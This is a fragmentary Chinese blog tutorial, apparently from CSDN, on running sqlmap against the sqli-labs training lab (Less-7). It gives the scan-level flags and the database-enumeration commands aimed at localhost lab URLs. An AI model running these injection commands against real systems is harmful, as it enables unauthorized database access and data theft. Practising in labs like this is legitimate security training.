 
---


---


## 二、扩展

> 
<h3>2.1、命令扩展</h3>
（1）如果提前找到了数据库类型
--dbms +数据库
（2）扫描的等级
最高等级是
--leve=5 --risk=3
<hr/>
<h3>2.2、注：</h3>
我使用Windows中的sqlmap做，会带上python sqlmap.py
Linux：直接sqlmap +……
<hr/>
<h3>2.3、推荐：</h3>
[(手工)【sqli-labs7】GET请求、文件读写注入：使用方法<img alt="icon-default.png?t=M4AD" src="https://csdnimg.cn/release/blog_editor_html/release2.1.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M4AD"/>https://blog.csdn.net/qq_53079406/article/details/125038406?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_53079406/article/details/125038406?spm=1001.2014.3001.5501)



### 2.2、注：

---


---


##  三、Less7（GET-Dump into outfile - String）

> 
<h3> 3.1、第一步：检测是否存在注入</h3>
<h4>基础操作</h4>
python sqlmap.py 'http://localhost:8080/sqli-labs-master/Less-7/?id=1' --batch
--batch是使用默认设置

 



 

其实环境都扫出来了 
就可以再加上--dbms mysql了



> 
<h3>3.2、第二步：爆数据库名</h3>
<h4>命令</h4>
#获取全部数据库
sqlmap.py -u url --dbs --batch
---------
#获取当前数据库
sqlmap.py -u url --current-dbs --batch
<hr/>
<h4>基础操作</h4>
python sqlmap.py -u 'http://localhost:8080/sqli-labs-master/Less-5/?id=1' --dbs --batch
